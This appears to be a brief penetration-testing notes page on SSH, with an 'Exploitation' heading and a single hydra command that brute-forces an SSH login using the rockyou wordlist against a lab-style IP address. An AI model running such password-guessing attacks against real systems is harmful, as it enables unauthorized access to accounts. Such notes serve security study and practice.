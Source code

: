 ```yaml
---
description: Nice replacement for telnet
---
```


# SSH (Secure Socket Shell)

### Exploitation&#x20;

#### Password cracking with hydra

```bash
hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.26.151 ssh
```
